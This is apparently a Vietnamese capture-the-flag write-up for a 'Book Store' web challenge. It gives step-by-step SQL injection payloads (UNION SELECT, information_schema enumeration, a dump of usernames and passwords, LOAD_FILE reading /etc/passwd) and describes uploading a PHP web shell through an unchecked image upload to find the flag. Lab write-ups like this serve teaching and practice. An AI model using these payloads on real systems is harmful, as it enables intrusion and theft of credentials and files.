# The Book Store

1.	Description:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

 ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

payload: ID=NEW-2' ORDER BY 15-- -  
 Vậy có 15 cột 

-	Bây giờ ta sử dụng UNION để bắt đầu lấy thông tin 
payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- -&category=new

giúp ta xác định được các cột trả về ở vị trí nào.



-	Ta kiểm tra xem version của db trong bài ctf này là loại nào để ta có thể sử dụng information.schema



version MariaDB nên ta sẽ khai thác bằng cách truy cập vào bảng information_schema

-	Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,unhex(hex(table_name)),13,14,15 FROM information_schema.tables WHERE table_schema=database()-- -&category=new 



Việc ta sử dụng unhex(hex(table_name)) nhằm mục đích giúp hệ thống hiểu dữ liệu ta truyền vào dưới dạng hex và được trả ra dưới dạng text để ta đọc
Trong MariaDB có 1 cột table_schema chứa tên database trong khi db infomation_schema lại trả về rất nhiều bảng khác của hệ thống nên ta cần thêm điều kiện table_schema=database() để trả về đúng cột db ta đang cần
Ta thấy có 5 cột dược trả về trong đó có bảng users có thể chứa dữ liệu của admin

-	Tiếp tục lấy dữ liệu từng bảng users xem có bao nhiêu cột trong bảng.
Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(unhex(hex(column_name))),13,14,15 FROM information_schema.columns WHERE table_name='users'



Ta thấy kết quả trả về có 2 cột ta cần quan tâm là cột UserName và cột Password

-	Payload: ID=0' UNION SELECT 1,group_concat(UserName),group_concat(Password),4,5,6,7,8,9,10,11,12,13,14,15 FROM users-- -&category=new 



Để nhìn rõ kết quả ta paste link lên browse



Tài khoản  username = admin && password = 1234567890 

-	Đăng nhập thử vào admin ta thấy có 2 phần là All user với chức năng show toàn bộ user 


 
- và phần Upload product với chức năng upload một file ảnh 



-	Check thử thư mục /etc/passwd
payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/etc/passwd'),13,14,15-- -&category=new 

Ta được:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin (user chạy web, thư mục home là /var/www có thể là thư mục gốc của web )

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false

-	Lợi dụng việc upload file không kiểm tra tên, loại, nội dung và kích thước tệp giúp ta có thể tải một file lệnh shell lên trên hệ thống ta tạo file shell có tên path.php nội dung như sau:


File shell này giúp tìm các file có tên bắt đầu là flag và kết thúc với đuôi .txt và được tìm từ thư mục gốc trên hệ thống, sau đó kết quả được ghi vào file /www/flag_paths.txt  (file flag_paths.txt được lưu trong thư mục web)

-	Upload file lên và thử các đường dẫn http://<..> /uploads/path.php hoặc /storage/path.php 
Loay hoay một hồi thì mình chợt nhận ra rằng file upload là up ảnh minh họa =)), lúc này mình nghĩ là liệu có mở được file ảnh ko. Click chuột trái vào ảnh và chọn được mở sang một tap khác 

- Vậy là ta đã có đường dẫn để mở file path.php, ta vào đường dẫn /img/books/path.php được nội dung sau 



- Giờ ta đã có file flag_paths.txt tìm đường dẫn flag :  
/flagR3LgR.txt

- Payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/flagR3LgR.txt'),13,14,15-- -&category=new



- CHH{Tr41nin9_N4m_B0okSt0r3_f16b8267ba93b3329ff5ae377c3134e3}